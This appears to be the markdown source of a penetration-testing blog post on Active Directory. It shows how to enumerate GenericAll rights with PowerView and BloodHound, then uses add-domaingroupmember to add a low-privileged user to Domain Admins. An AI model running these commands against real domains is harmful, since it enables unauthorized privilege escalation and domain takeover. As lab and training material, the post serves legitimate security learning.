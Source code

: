 ```yaml
---
title:  GenericAll On Group
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# GenericAll

***GenericAll*** : Is a permission that gives full rights to an active directory objects. If you have `GenericAll` on group object, you can add users to the group.

# Enumeration

## PowerView

### GenericAll Enumeration 

We will get current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which we have `GenericAll` right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[our_current_user_sid]") -and ($_.activedirectoryrights -eq "GenericAll")}

```

Below image shows the current user `usman` has GenericAll right on `Domain Admins` group.

![aclgroupgenall](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall2.png)

## BloodHound

We can also get thesame result using bloodhound.

Below image shows the current user `usman` has GenericAll right on `Domain Admins` group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall1.png)

# Exploitation

Let's check our current group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall3.png)

Here `usman` is a member of `Domain Users` group. We are going to exploit `GenericAll` to add `usman` to `Domain Admins`.

## PowerView

Since we have `GenericAll` right on `Domain Admins` group, we can add `usman` to the group by executing the below command

Command

```powershell
add-domaingroupmember -identity "Domain Admins" -members usman

```

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall4.png)

Let's check it by executing `get-netgroup -memberidentity usman`

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall4.png)

As you can see, `usman` has been added to `Domain Admins` group.
	
# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)

